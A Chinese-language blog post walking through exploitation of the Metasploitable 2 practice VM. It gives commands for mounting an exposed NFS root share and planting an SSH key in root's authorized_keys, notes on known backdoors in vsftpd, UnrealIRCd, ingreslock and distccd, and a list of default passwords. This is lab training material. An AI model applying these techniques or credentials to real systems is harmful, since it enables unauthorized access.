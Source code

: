 ```yaml
---
layout: post
title: Metasploitable2-Exploitability-Guide
date: 2017-10-16
tags: 安全靶场通关  
---
```






![rapid7][1]

<br>

###  内容：metasploitable 2 利用笔记    

暂时不包括对web应用和服务的利用  

环境搭建: VMware 虚拟机[下载地址](https://information.rapid7.com/metasploitable-download.html)  注册信息随便写，或者[直接下载](https://metasploit.help.rapid7.com/docs/metasploitable-2).    

metasploitable 2 用户名密码`msfadmin`/`msfadmin`.登陆后查看地址`ifconfig`.    

  ![ifconfig][2]   


<br>

<p style="color: #FF2D2D">
<strong>打开kali用nmap扫描该地址开启的端口和服务以及服务版本:`nmap -p1-65535 -sV 192.168.227.128`</strong></p>      

  ![nmap][3]  

得到很多开启的服务及端口信息,这正是我们需要的.    

---    

### PORT: 2049 NFS(Network File System) 网络文件系统    

  使用`rpcinfo`判断`NFS`服务是否开启，再用`showmount -e` 判断`linux`系统根目录是否被共享和可以挂载.  

    # rpcinfo -p 192.168.227.128
    # showmount -e 192.168.227.128


![NFS][4]  

  通过挂载远程服务器的根目录，再写入文件。这里选择写入ssh公钥用ssh私钥直接进行登录。  

创建公私钥   

    # ssh-keygen -t rsa    

![ssh-keygen][5]  

挂载共享目录到本地，再将公钥重命名写到指定目录，用私钥登录   

    # mount -t nfs 192.168.227.128:/ /tmp/
    # cat id_rsa.pub >> /tmp/root/.ssh/authorized_keys
    # umount /tmp
    # ssh 192.168.227.128

![ssh][6]  

------

### PORT: 21 vsftpd-2.3.4     
  该版本包含一个后门，如果一个用户名被传入最后包含`:)`，该版本会在6200端口监听一个shell，可以用telnet或者msf测试这个漏洞    

  ![telnet][7]  

  ![msfconsole][8]  

-----

### PORT: 6667 UnrealRCD IRC 守护进程    

  该版本(Unreal3.2.8.1)包含一个后门,该后门允许用户执行任意命令，拥有该服务的权限  

  ![Unreal][9]  

-------  

### PORT: 1524 "ingreslock" backdoor  

  很久以前这是一个常见的后门  

  ![1524][10]  

-----  

### PORT: 3632 distccd backdoor   

  ![3632][11]  

------  

### PORT: 445.139 Samba  

  Samba 当配置为可写的文件共享并且`smb.conf`中`wide links`选项为on的时候，可以导致不被分享的目录也可被进入  

  ![Samba][12]  

-----  

### Weak Paawords  

    msfadmin/msfadmin
    user/user
    postgres/postgres
    sys/batman
    klog/123456789
    service/service  

-----  

# web 应用程序有时间也会写出来  


------

> 大智若愚。木秀于林，风必催之。国之利器，不可以示人。 --来自《知乎》

----------



<br>

[1]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/1.png  
[2]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/2.png    
[3]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/3.png  
[4]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/4.png  
[5]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/5.png  
[6]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/6.png  
[7]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/7.png  
[8]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/8.png  
[9]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/9.png  
[10]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/10.png  
[11]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/11.png  
[12]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/12.png  
